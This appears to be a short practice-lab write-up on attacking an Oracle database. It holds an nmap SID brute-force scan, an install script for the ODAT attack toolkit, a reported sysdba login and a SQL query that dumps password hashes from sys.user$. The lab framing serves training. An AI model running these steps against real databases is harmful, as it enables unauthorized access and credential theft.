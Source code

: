 # Simple Oracle practice

---

![Screenshot 2024-10-22 at 9.01.45 AM.png](Simple%20Oracle%20practice%2012724f42a85b80928880c02f3aa573c0/Screenshot_2024-10-22_at_9.01.45_AM.png)

Ip =10.129.205.19

```

└──╼ [★]$ sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-22 08:04 CDT
Nmap scan report for 10.129.205.19
Host is up (0.0082s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
| oracle-sid-brute: 
|_  XE

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.04 seconds

```

After this im going to enumerate deeper but for this I need a set of tools to use with oracle.

there is a bash script that I can run to setup everything

```
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
git submodule update
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-basic-linux.x64-21.12.0.0.0dbru.zip
wget https://download.oracle.com/otn_software/linux/instantclient/2112000/instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
unzip instantclient-sqlplus-linux.x64-21.12.0.0.0dbru.zip
export LD_LIBRARY_PATH=instantclient_21_12:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
```

After installing it I will use odat.py

![Screenshot 2024-10-22 at 9.17.15 AM.png](Simple%20Oracle%20practice%2012724f42a85b80928880c02f3aa573c0/Screenshot_2024-10-22_at_9.17.15_AM.png)

![Screenshot 2024-10-22 at 9.39.11 AM.png](Simple%20Oracle%20practice%2012724f42a85b80928880c02f3aa573c0/Screenshot_2024-10-22_at_9.39.11_AM.png)

I logged in as sysdba to have administrative priv.

I then used 

```
select name, password from sys.user$;
```

![Screenshot 2024-10-22 at 9.40.02 AM.png](Simple%20Oracle%20practice%2012724f42a85b80928880c02f3aa573c0/Screenshot_2024-10-22_at_9.40.02_AM.png)

Here I found the password hash I was looking for.